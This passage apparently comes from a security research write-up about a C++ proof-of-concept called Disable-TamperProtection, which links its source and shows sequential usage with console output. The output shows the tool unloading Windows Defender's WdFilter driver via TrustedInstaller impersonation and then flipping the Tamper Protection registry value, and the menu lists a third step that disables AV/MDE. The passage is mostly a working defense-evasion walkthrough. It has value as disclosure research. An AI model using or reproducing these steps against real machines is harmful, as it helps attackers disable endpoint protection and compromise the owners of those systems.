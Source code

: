 A POC has been included, written in C++ called Disable-TamperProtection can be found on GitHub here: <https://github.com/m3rcer/Disable-TamperProtection>

*NOTE: VC_redist.x64.exe could be required on the target.*

Required elevated privileges to perform the attack have been incorporated in the POC by borrowing Code from the [superUser](https://github.com/mspaintmsi/superUser) project codebase for TrustedInstaller privilege impersonation. 

POC Demo: <https://www.youtube.com/watch?v=aGTrjDxMSdU>

The POC works in 3 steps:

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe
Sequential Usage: 1 --> 2 --> 3
1:      Unload WdFilter
2:      Disable Tamper Protection
3:      Disable AV/MDE
4:      Restore AV/MDE settings
```

An example, to use this POC is as follows:

1. Unload WdFilter:
```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key Value: (null)
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to delete WdFilter "Altitude" regkey.
[+] Created process ID: 4192 and assigned additional token privileges.
[+] Execute option 1 to validate!

C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Enumerating WdFilter information:
        Next:   0 | Frame ID:   0 | No. of Instances:   4 | Name:        wdfilter | Altitude:          328010
[+] Restart the system or wait a few minutes for WdFilter to unload.
[+] Execute option 1 to validate!

# Restart or wait a few minutes for WdFilter to automatically unload
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] WDFilter has been successfully unloaded, use option 2 to disable Tamper Protection.
```

2. Disable Tamper Protection:
```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 2
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 00000000000000C4
[!] Spawning registry with TrustedInstaller privileges to alter Defender "TamperProtection" regkey from 5 to 4.
[+] Created process ID: 7748 and assigned additional token privileges.
[+] Use option '3' to finally Disable AV/MDE.
```
